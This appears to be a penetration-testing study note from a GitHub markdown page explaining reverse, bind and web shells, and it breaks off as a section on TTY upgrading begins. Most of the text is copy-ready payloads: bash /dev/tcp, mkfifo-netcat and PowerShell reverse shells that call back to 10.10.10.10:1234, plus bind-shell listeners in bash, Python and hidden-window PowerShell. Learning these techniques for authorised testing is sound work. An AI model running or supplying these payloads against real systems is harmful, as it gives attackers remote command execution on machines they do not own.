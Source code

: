 # Shellings

Means getting a active bash session on the target machine, which allows to execute CLI commands. Usually done exploiting an RCE vulnerability.

There are different types of shelling.

| Type of shelling | Method of communicaton |
| - | - |
| Reverse shell | Target machine connects to us and gives us control to run any command |
| Bind | shell | We open a connection on a target machine |
| Web shell | It's when server accepts commands through HTTP parameters |

## Reverse shell

To launch a netcat listener server on our machine:

`nc -lvnp 1234`
-  `-l` means to open server on listen mode
- `-v` verbose mode, which means output is given on any action (connect, disconnect, etc.)
- `-n` Disables DNS resolution which reduces latency as we connect from IP to IP
- `-p 1234` port number netcat is listening on
When we have this server open, we can make the target connect to it through RCE. Though the connection is fragile as session can be interrupted by connection loss or someone ctrl+c'ing.

```
you can find your IP on linux with ip a or on windows with ipconfig. It's needed for when reverse shelling on target
```

What to execute on target machine depends on OS

[Reverse shell commands for different bashes and languages](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

These are reliable commands that can be run on target for reliable reverse shell:
``` bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

And when we receive a message on our listener server we are in.

## Bind shell

[Bind shell payload cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md#ncat)


Bind shell is when you manage to create a listener server on target and you connect to it.

Reliable commands for opening a listener server on the target. 

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
to connect to a listener server with netcat we can run a command:
`nc ip 1234`

It's better because we can now interrupt shell from our side, and we decide to connect back we can do that by just nc'ing.

## Upgrading TTY

Netcat sucks. You can move text cursor, nor you can access command history with up and down. 

But we can do that, we need to upgrade our connection to TTY. We can map our terminal TTY to remote TTY.